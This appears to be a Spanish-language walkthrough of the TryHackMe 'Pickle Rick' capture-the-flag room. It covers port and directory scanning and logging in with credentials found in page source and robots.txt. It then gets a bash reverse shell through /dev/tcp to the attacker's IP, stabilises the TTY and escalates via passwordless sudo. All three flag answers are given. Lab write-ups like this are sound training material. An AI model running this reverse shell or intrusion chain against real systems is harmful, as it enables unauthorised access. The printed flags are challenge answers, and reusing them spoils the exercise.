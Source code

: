 # Pickle Rick

![image.png](](./imagenes/Imagenes_PickleRick/image.png)

Maquinas que vamos a utilizar Kali Llinux y Pickle Rick  [https://tryhackme.com/room/picklerick](](./imagenes/Imagenes_PickleRick/https://tryhackme.com/room/picklerick)

- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%201.png)
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

- La IP de la maquina victima es: **10.10.214.144**
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%202.png)
    

---

```bash
sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.214.144
```

![image.png](](./imagenes/Imagenes_PickleRick/image%203.png)

- Vamos a ver lo que esta corriendo en el puerto 80 atraves del navegador web.
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%204.png)
    
    - Inspeccionamos el código fuente de la web `CTRL+U`
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%205.png)
        
        Tenemos nuestra primera posible pista. un nombre de usuario:  `R1ckRul3s`
        

- Listamos directorios con Gobuster y buscamos posibles archivos con distintas extensiones.
    
    ```bash
    gobuster dir -u [http://10.10.214.144/](](./imagenes/Imagenes_PickleRick/http://10.10.214.144/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
    ```
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%206.png)
    
    Encontramos una posible ruta donde probar el usuario que hemos encontrado así como el archivo robots.txt el cual vamos a mirar su contenido.
    
    - Contenido del robots.txt
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%207.png)
        
        Nos lo apuntamos por si es alguna contraseña o nos pueda servir para algo mas adelante. `Wubbalubbadubdub`
        
    - Vamos a la pagina de Login.php y probamos el usuario y la posible contraseña que hemos encontrado
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%208.png)
        
    - Nos encontramos una barra de comandos que responde a comandos de Linux aunque no a todos. Hacemos un `ls`  y vemos varios archivos de texto que puede ser interesantes.
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%209.png)
        
    
    - Escribimos `less Sup3rS3cretPickl3Ingred.txt`
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%2010.png)
        
         Ya tenemos la primera Flag: `mr. meeseek hair`
        
        NOTA: El archivo clue.txt no contenía nada interesante.
        
- Aprovechando que acepta comando vamos a intentar introducir un código para crear un reverse Shell.
    - Nos vamos a la web: https://www.revshells.com/
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%2011.png)
        
        Obtenemos esta reverse Shell **`sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1` pero debemos adaptarla para que nos la coja correctamente añadiendo al principio `bash -c` y la revershell es importante ponerlo entre comillas rectas `" "`.
        
        `bash -c "**sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1"`
        
    - En un terminal nos ponemos a la escucha en el puerto 443 con netcat.
        
        ```bash
        sudo nc -nlvp 443  
        ```
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%2012.png)
        
    - Lanzamos el comando de la Reverse Shell
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%2013.png)
        
        Obtenemos una conexio
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%2014.png)
        

---

### Vamos a empezar el tratamiento de la TTY .

Nos colocamos en la terminal de la maquina victima.

- Escribimos el siguiente comando  y veremos que adquirimos un prompt.
    
    `script /dev/null -c bash`
    
- Hacemos un **`CTRL+Z`**

- Escribimos a continuación.
    
    `stty raw -echo; fg`
    

- Escribimos `reset xterm` . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.

- Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
    
    `export TERM=xterm`
    
    `export SHELL=bash`
    
    Con esto ya abrimos estabilizado el terminal y ya nos aceptaría los comandos que antes no lo hacia.
    

---

- Nos movemos al directorio raíz y desde hay vamos investigando. en este caso voy al directorio `home`
    - `cd /`
        
        `cd home`
        
        `ls -la`
        
        ![image.png](](./imagenes/Imagenes_PickleRick/image%2015.png)
        

- Miramos dentro de la carpeta rick
    
    `cd rick/`
    
    `ls -la`
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%2016.png)
    

- Miramos el contenido del archivo
    
    `cat 'second ingredients’`
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%2017.png)
    
    Ya tenemos la segunda Flag: `1 jerry tear`
    

---

Vamos a intentar escalar privilegios con Sudo -l

- `sudo -l`
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%2018.png)
    
    Vemos que podemos ser root sin necesidad de contraseña.
    
    `sudo su`
    
    `whoami`
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%2019.png)
    
- Seguimos investigando y vamos a la carpeta root
    
    `cd root`
    
    `ls -la`
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%2020.png)
    

- Miramos el contenido del archivo 3rd.txt
    
    `cat 3rd.txt` 
    
    ![image.png](](./imagenes/Imagenes_PickleRick/image%2021.png)
    
    Ya tenemos la tercera Flag: `fleeb juice`